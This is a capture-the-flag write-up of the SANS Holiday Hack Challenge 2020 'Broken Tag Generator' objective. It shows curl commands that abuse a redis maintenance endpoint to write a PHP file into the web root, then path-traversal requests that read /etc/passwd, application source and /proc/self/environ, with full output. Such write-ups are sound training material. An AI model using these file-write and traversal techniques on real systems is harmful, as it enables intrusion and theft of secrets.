 # Writeup for SANS Holiday Hack Challenge 2020 - 'Zat You, Santa Claus? featuring KringleCon 3: French Hens
# 8. Broken Tag Generator
## 8.0. Description
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
## 8.1. Side Challenge - Redis Bug Hunt
This challenge revolves around an issue in redis maintenance mode allowing to create arbitrary files and potentially leading to RCE with the target of obtaining the source code of the application.  
I leveraged the feature to create a new php file which included the content of the actual `index.php` one:
```bash
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dir,%2Fvar%2Fwww%2Fhtml%2f"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir' '/var/www/html/'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dbfilename,index2.php"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename' 'index2.php'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=set,test,%3C%3Fphp%0A%24homepage%20%3D%20file_get_contents%28%27index.php%27%29%3B%0Aecho%20%24homepage%3B%0A%3F%3E"
OK
Running: redis-cli --raw -a '<password censored>' 'set' 'test' '<?php
$homepage = file_get_contents('\''index.php'\'');
echo $homepage;
?>'

OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=save"
Running: redis-cli --raw -a '<password censored>' 'save'

OK
player@1be6e6576403:~$ curl http://localhost/index2.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�+��_used-mem¨
 aof-preamble��� test@D<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
example1The site is in maintenance modeexample2#We think there's a bug in index.php��Pƫ��ڪ
```

## 8.2. Hints
> **Endpoint Exploration** - Holly Evergreen: *“Is there an endpoint that will print arbitrary files?”*  
> **Content-Type Gotcha** - Holly Evergreen: *“If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!”*  
> **Error Page Message Disclosure** - Holly Evergreen: *“Can you figure out the path to the script? It's probably on error pages!”*  
> **Download File Mechanism** - Holly Evergreen: *“Once you know the path to the file, we need a way to download it!”*  
> **Source Code Retrieval** - Holly Evergreen: *“We might be able to find the problem if we can get source code!”*  
> **Redirect to Download** - Holly Evergreen: *“If you find a way to execute code blindly, I bet you can redirect to a file then download that file!”*  
> **Patience and Timing** - Holly Evergreen: *“Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!”*  
> **Source Code Analysis** - Holly Evergreen: *“I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?”*  

## 8.3. Solution
Analyzing the JS source code I highlighted two interesting code lines: `img.attr('src', '/image?id=${id}'`); and `window.location = '/share?id=${res.id}'`;. Probing these URLs led to interesting results which made me have a pretty strong feeling of Path Traversal and how to exploit it. Further probing confirmed it thus I was able to obtain the source code of the application and the content of the `GREETZ` environment variable with value `JackFrostWasHere`.
```bash
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/test</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/share?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb --output tag-generator/app.rb
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4886  100  4886    0     0   3485      0  0:00:01  0:00:01 --:--:--  3485

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../proc/self/environ --output tag-generator/environ
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   399  100   399    0     0    233      0  0:00:01  0:00:01 --:--:--   233
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ cat tag-generator/environ 
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
## 8.4. Ciao Jack
Just wanted to say “[Hi](https://www.youtube.com/watch?v=0fz9-gqwThQ)!” 😁

---
# 9. [ARP Shenanigans](../09.%20ARP%20Shenanigans/README.md)
# 10. [Defeat Fingerprint Sensor](../10.%20Defeat%20Fingerprint%20Sensor/README.md)
# 11a. [Naughty/Nice List with Blockchain Investigation Part 1](../11a.%20Naughty-Nice%20List%20with%20Blockchain%20Investigation%20Part%201/README.md)
# 11b. [Naughty/Nice List with Blockchain Investigation Part 2](../11b.%20Naughty-Nice%20List%20with%20Blockchain%20Investigation%20Part%202/README.md)

---
# 0. [thedead@asian:~$ whoami](../README.md)
# ?. [33.6 Kbps](../%20%3F.%2033.6%20Kbps/README.md)
# 1. [Uncover Santa's Gift List](../01.%20Uncover%20Santa's%20Gift%20List/README.md)
# 2. [Investigate S3 Bucket](../02.%20Investigate%20S3%20Bucket/README.md)
# 3. [Point-of-Sale Password Recovery](../03.%20Point-of-Sale%20Password%20Recovery/README.md)
# 4. [Operate the Santavator](../04.%20Operate%20the%20Santavator/README.md)
# 5. [Open HID Lock](../05.%20Open%20HID%20Lock/README.md)
# 6. [Splunk Challenge](../06.%20Splunk%20Challenge/README.md)
# 7. [Solve the Sleigh's CAN-D-BUS Problem](../07.%20Solve%20the%20Sleigh's%20CAN-D-BUS%20Problem/README.md)